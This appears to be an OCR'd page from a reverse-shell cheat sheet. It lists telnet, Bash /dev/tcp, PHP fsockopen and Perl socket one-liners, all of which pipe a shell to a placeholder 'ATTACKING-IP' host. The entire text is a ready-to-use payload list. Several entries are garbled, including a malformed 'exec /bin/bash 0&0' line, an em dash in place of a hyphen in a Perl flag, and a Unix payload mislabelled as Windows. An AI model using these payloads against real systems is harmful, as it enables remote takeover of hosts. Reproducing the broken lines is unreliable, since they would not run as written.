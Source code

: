 ```bash
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### **PHP**

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)

### **Bash**

```bash
exec /bin/bash 0&0 2>&0
```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done
```

```bash
# or: while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

### **Perl**

```bash
exec "/bin/sh";
```

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Windows

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
